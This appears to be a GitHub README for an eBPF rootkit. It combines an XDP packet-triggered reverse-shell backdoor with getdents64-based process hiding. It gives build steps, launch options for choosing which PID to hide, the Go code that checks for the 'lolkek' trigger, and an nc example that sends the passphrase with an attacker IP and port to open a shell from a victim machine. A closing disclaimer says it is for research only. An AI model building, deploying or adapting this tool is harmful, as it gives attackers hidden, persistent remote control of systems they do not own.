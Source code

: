 # eBPF-rootkit

This repository contains an eBPF rootkit that combines 2 main functions:

Backdoor for remote access - uses `XDP` (eXpress Data Path) to monitor network traffic and launch a reverse shell when detecting a specific pattern in packets.

Process Hiding - uses eBPF programs attached to the `getdents64` system call to hide specific processes from tools like `ps`, `htop`, `ls` etc.

The process hiding part is taken from the [bad-bpf repository](https://github.com/pathtofile/bad-bpf/), but the loader has been rewritten in Go.

## Dependencies
To build and run the project, you will need:

* Go (version 1.16+)
* Clang and LLVM (for compiling eBPF programs)
* Linux kernel header files
* Cilium eBPF library for Go

```bash
# Installing dependencies on Ubuntu/Debian:

sudo apt update  
sudo apt install -y golang clang llvm libbpf-dev linux-headers-$(uname -r)  
go get github.com/cilium/ebpf

# Building and Running

git clone https://github.com/cotsom/eBPF-rootkit.git  
cd eBPF-rootkit
go generate
go build -o ebpf-rootkit
```

Run with root privileges:

```bash
./ebpf-rootkit [options]
Launch Options:
-p <PID> - PID of the process to hide (default: PID of the program itself)
-t <PPID> - Parent PID, will only affect its child processes
-i <interface> - Network interface to attach the XDP program to (default: eth0)
```

## Changing the Passphrase for the Reverse Shell
For now the passphrase that triggers the reverse shell is `lolkek`

```go
dataStr := string(data)
if strings.Contains(dataStr, "lolkek") {
    log.Printf("XDP: Found 'lolkek' trigger in packet data: %q", dataStr)
    parts := strings.Fields(dataStr)

....
```

To change the passphrase, replace the string `lolkek` with your own phrase. This phrase is used as a trigger to launch the reverse shell.

After changing the passphrase, you need to rebuild the project:

`go build -o ebpf-rootkit`

To launch the reverse shell, send a TCP packet containing your passphrase followed by the IP address and port to connect to, for example:

```bash
nc 192.168.1.100 22 # connect to victim machine with backdoor to any open port

# send command to nc
lolkek 192.168.1.200 4444
```

### Disclaimer
This tool is intended for educational purposes and security research only. Using this tool on systems without proper authorization may be illegal.
